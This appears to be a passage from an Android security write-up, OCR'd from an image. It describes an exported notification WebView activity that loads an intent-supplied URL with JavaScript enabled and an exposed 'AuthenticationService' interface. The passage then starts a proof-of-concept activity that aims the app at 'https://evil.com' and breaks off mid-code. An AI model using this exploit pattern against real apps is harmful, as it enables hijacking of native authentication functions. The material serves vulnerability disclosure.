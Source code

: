 ```java
        }
        if (getIntent().hasExtra(ID_NOTIFICATION_PARAM)) {
            this.D = getIntent().getStringExtra(ID_NOTIFICATION_PARAM);
        }
    }

    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.notification_view);
        ButterKnife.inject(this);
        initialize();
        configureActionBar();
        showProgress("url");
        this.webView.getSettings().setJavaScriptEnabled(true);
        this.webView.getSettings().setBuiltInZoomControls(true);
        this.webView.getSettings().setDisplayZoomControls(false);
        this.webView.getSettings().setDomStorageEnabled(true);
        this.webView.addJavascriptInterface(new AuthenticationService(this), "Android");

        this.webView.getSettings().setUserAgentString(this.webView.getSettings().getUserAgentString() + "-Victim APP V.0.1.2");
        
        this.webView.loadUrl(this.C);
        if (TextUtils.isEmpty(this.D)) {
            return;
        }
        
    }

```

 `NotificationWebViewActivity.onCreate()` called `initialize()` which extracting intent extras, into the class private parameters within the activity

* `SEGMENT_PARAM` is assigned to `this.B`.
* `URL_NOTIFICATION_PARAM` is assigned to `this.C`, which is the URL loaded into the WebView.
* `ID_NOTIFICATION_PARAM` is assigned to `this.D`.

At the point where `this.webView.loadUrl(this.C);` is called, the `WebView` is fully loaded with external content. Thanks to the `JavascriptInterface` attached to the `WebView`, it opens the door for JavaScript code running in the WebView to interact with native Android functions. This setup allows us to call native methods from `JavaScript`, enabling access to various functions exposed by the interface.

---

### Proof of Concept (PoC)

```java
public class MainActivity extends AppCompatActivity {

    public static final String ON_NOTIFICATION_OPENED_ACTION = "victim.PUSH_NOTIFICATION_OPENED";
    public static final String EXTRA_NOTIFICATION = "victim.PUSH_NOTIFICATION";
    public static final String EXTRA_NOTIFICATION_ID = "tp_id";
    public static final String EXTRA_NOTIFICATION_RICH_URL = "tp_rich_url";
    public static final String MY_MALICIOUS_URL = "https://evil.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button triggerButton = findViewById(R.id.triggerButton);

        triggerButton.setOnClickListener(new View.OnClickListener() {
```